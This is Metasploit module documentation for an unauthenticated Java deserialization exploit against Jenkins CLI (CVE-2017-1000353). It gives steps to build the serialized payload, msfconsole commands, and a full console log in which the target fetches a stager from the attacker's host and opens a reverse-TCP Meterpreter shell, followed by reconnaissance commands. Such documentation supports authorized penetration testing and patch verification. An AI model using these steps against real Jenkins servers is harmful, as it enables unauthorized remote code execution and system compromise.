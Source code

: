 ## Vulnerable Application

  An unauthenticated Java object deserialization vulnerability exists
  in the CLI component for Jenkins versions below `v2.54`.

  The `readFrom` method within the `Command` class in the Jenkins
  CLI remoting component deserializes objects received from clients without
  first checking / sanitizing the data. Because of this, a malicious serialized
  object contained within a serialized `SignedObject` can be sent to the Jenkins
  endpoint to achieve code execution on the target.

### Installation

  Vulnerable versions of Jenkins can be downloaded from [here](https://get.jenkins.io/war-stable/).
  Additionally, a [jdk](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html) will need to be installed on the target system.

  To start Jenkins, navigate to the location of the downloaded `war` file and execute:
  `java -jar <jenkins-file>.war`. To test if Jenkins is properly working, the CLI component
  can be accessed by navigating to `http://localhost:8080/cli`.

### How to Produce Binary Blob from PoC

  Generating the serialized object first requires the `Payload.java` file
  located in the `data/exploits/CVE-2017-1000353/` folder.

  1. Obtain a vulnerable version of Jenkins
     `wget https://get.jenkins.io/war-stable/<version>/jenkins.war`
  2. Create a folder to extract the Jenkins files into
     `mkdir libs/`
  3. Extract the contents of the war file into the newly created folder
     `cd libs/ && jar -xf ../jenkins.war`
  4. Assuming the `Payload.java` file is located in the same location as `jenkins.war`,
     compile the file, ensuring the Jenkins libraries are in the classpath
     `cd ../ && javac -cp ".:./libs/WEB-INF/lib/*" Payload.java`
  5. To execute, supply the name of the outfile for the serialized object
     and a placeholder command (Note. the command gets patched in the exploit module)
     `java -cp ".:./libs/WEB-INF/lib/*" Payload serial_obj.ser 'touch /tmp/test'`
  6. The serialized object will be located in the outfile you supplied in the
     previous step

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/jenkins_cli_deserialization`
  4. Do: `set RHOST <ip>`
  5. Do: `run`
  6. You should get a shell.

## Options

  No options

## Scenarios
### Jenkins `v2.32.1` on Ubuntu Linux 18.04.1`

```
msf > use exploit/linux/http/jenkins_cli_deserialization
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(linux/http/jenkins_cli_deserialization) > set rhost 192.168.37.149
rhost => 192.168.37.149
msf exploit(linux/http/jenkins_cli_deserialization) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf exploit(linux/http/jenkins_cli_deserialization) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Jenkins version 2.32.1 detected
[*] Sending payload...
[*] Using URL: http://0.0.0.0:8080/JMpXWoK
[*] Local IP: http://192.168.1.141:8080/JMpXWoK
[*] Client 192.168.37.149 (curl/7.58.0) requested /JMpXWoK
[*] Sending payload to 192.168.37.149 (curl/7.58.0)
[*] Command Stager progress -  50.46% done (55/109 bytes)
[*] Command Stager progress -  70.64% done (77/109 bytes)
[*] Command Stager progress -  82.57% done (90/109 bytes)
[*] Command Stager progress - 100.00% done (109/109 bytes)
[*] Sending stage (976712 bytes) to 192.168.37.149
[*] Meterpreter session 7 opened (192.168.37.1:4444 -> 192.168.37.149:44748) at 2020-09-10 18:01:34 -0500
[*] Server stopped.

meterpreter > getuid
Server username: space @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.37.149
OS           : Ubuntu 18.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

